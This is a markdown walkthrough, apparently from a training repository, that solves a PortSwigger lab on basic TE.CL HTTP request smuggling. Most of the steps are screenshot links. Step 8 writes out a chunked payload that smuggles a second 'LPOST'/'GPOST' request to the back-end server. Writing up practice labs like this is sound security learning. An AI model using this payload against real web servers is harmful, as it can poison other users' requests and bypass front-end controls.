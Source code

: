 # HTTP request smuggling, basic TE.CL vulnerability

## This lab involves a front-end and back-end server, and the back-end server doesn't support chunked encoding. The front-end server rejects requests that aren't using the GET or POST method.

## To solve the lab, smuggle a request to the back-end server, so that the next request processed by the back-end server appears to use the method `GPOST`.

### TE.CL: the front-end server uses the `Transfer-Encoding` header and the back-end server uses the `Content-Length` header.

---

### step 1

![screenshot](images/images_lab2/lab2_homepage_get_request.jpg)

### step2

change request method from get to post

![screenshot](images/images_lab2/lab2_homepage_post_request.jpg)

### step3

make sure to untick update content-length otherwise it will update automatically

![screenshot](images/images_lab2/lab2_testing_content_type.jpg)

### step4

![screenshot](images/images_lab2/lab2_x_equal_g_g0post.jpg)

### step5

![screenshot](images/images_lab2/lab2_hexadecimal_value_a.jpg)

### step6

![screenshot](images/images_lab2/lab2_content_length.jpg)

### step7

![screenshot](images/images_lab2/lab2_content_length_greater_than_a.jpg)

### step8

payload

```
9d
LPOST / HTTP/1.1
Host: 0af5000b0398135283c14c05001f0024.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0

```

### Note : you can directly use GPOST in place of LPOST

![screenshot](images/images_lab2/lab2_payload_testing.jpg)

### step9

![screenshot](images/images_lab2/lab2_r_n_contentent_length.jpg)

---

### step 10

![screenshot](images/images_lab2/lab2_content_length_15.jpg)

---

### step 11

![screenshot](images/images_lab2/lab2_hexadecimal_vlaue_on_another_request.jpg)

---

### step 12

change LPOST to GPOST

![screenshot](images/images_lab2/lab2_final_payload_gpost_to_solve_lab.jpg)

![screenshot](./images/images_lab2/portswigger_wsa/P03_advanced_topics/P21_HTTP request smuggling/labs/images/images_lab2/lab2_solved_lab.jpg)

we can remove unnecessary lines from repeter

---

### step 12(another way)

![screenshot](images/images_lab2/lab2_gpost.jpg)
